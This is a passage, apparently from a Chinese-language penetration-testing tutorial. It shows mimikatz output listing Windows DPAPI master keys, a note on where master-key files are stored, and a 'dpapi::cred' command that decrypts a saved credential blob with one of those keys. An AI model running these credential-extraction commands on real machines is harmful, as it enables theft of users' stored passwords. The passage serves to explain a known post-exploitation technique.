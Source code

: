 ```console
  [00000001]
  * GUID      : {4a44a108-4a52-462e-873d-37a342a538f7}
  * Time      : 2023-11-24 14:29:57
  * MasterKey : dcd5d78081c7e5c5889ca8dbb90a848c6bc55fa68c5a3f0706367aed9f80e8c55842f1cd8af826e2412fbed6d506959c61a4402b259fafc7aad404042ded5f78
  * sha1(key) : ad78f0a094c61142ab740c84f8bcc04bc1de3ae4
  [00000002]
  * GUID      : {39272925-c391-4d0d-9c03-6040edc70d70}
  * Time      : 2023-11-24 14:29:07
  * MasterKey : 82355294e567a47527246f27be711123bd1a03c3faff9cd21c0531cc7bf5cba0363a12366a64a1853d889f10828265646329feb14c92e2d6a9b95a6b64029c84
  * sha1(key) : 1b14f9a9f6075470cd1de67cdfea63e5787ed0bf
  [00000003]
  * GUID      : {b38ac866-4d4a-4c36-a406-a3c4ca1d8314}
  * Time      : 2023-11-24 14:26:42
  * MasterKey : 3c5509ef5d2092496afc864744215690b8391b88548c9d7e565886b90c491cd9d25be0f13c2127eff8f57270c9baccb63ba49c86d1c143abd5062c651f737c70
  * sha1(key) : a52ec4f4053e1cec48d8d9d1c5fe2486e590b06b
  [00000004]
  * GUID      : {52771d12-761e-43e8-a30d-8c868b34f454}
  * Time      : 2023-11-24 15:00:37
  * MasterKey : 1e12db5656f9a3a8a032d5c4bed34a130ced9703ad489b059dd27593141e00bb11596c4612b706786591da8c759967e9d75c4f64a3b1398b636bddeadc3378e2
  * sha1(key) : f73e089b0369d8257beeb1b1b2b87491edc81a65

```

> 注：`273001c6-c88c-422a-aecb-daa6f950f8d0` 和 `52c3460d-2e8b-4764-957c-57185d4d62b2` 对应的 MasterKey 都可以解密凭证，因为这两个都是该用户的 MasterKey 文件：`%APPDATA%\Microsoft\Protect\<UserSID>\<MasterKeyFile>`。

最后使用 Masterkey 从文件中解密凭证，得到明文密码：

```console
mimikatz # dpapi::cred /in:84BD531FDD20A7ED510558FA8768BA20 /masterkey:6beeec39772b606a7ac31f190d3c5cab56e00bd0bef7fe898cc826b12930a402b3163877d3a4d9aadafc2457a31ab2b35522b711c2512156db940ddf350c27f7
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {52c3460d-2e8b-4764-957c-57185d4d62b2}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000012 - 18
  szDescription      :


  algCrypt           : 00006610 - 26128 (CALG_AES_256)
  dwAlgCryptLen      : 00000100 - 256
  dwSaltLen          : 00000020 - 32
  pbSalt             : cbc61bdb2a8cda88dafb2c090aaf64b6c8edfc5f32a134839f083fa469a95c7f
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         :
  algHash            : 0000800e - 32782 (CALG_SHA_512)
  dwAlgHashLen       : 00000200 - 512
  dwHmac2KeyLen      : 00000020 - 32
  pbHmack2Key        : 3c157c9d67b4e62952b3f8b72d841a35cff4d012e46c2c8f91e4e21af8a91e45
  dwDataLen          : 000000f0 - 240
  pbData             : 3e705a067361549290c628f53ae625d3961d29c2eeba9ba24270723dc3021ad8f6bb9e29c474951492d3ae470daf715825b33652607967a9394f0d10b7e35a34c57396d41e9faba5ea89fe969a7ead9e76035dfe3aff6c2b7d6332ea0b2fec5ea2eca2ad1054808dab04d17e4a818f2fbe0aed21b3e217604f2b52e04736c77349f0455c832af7120ffb1eda7dd3b5fc6214f697564e28b2c916d8ab926ffc65571e6475ca7d746e63d4b919519970233359ef2c547f2f3422b9d4199e1f4bcc3f5d034f6d47da39469331fa31adacefaba7dd7aae4b6fb3fea8a873815336cff1c62bb60b2fdbb69647c520a01550f6
  dwSignLen          : 00000040 - 64
```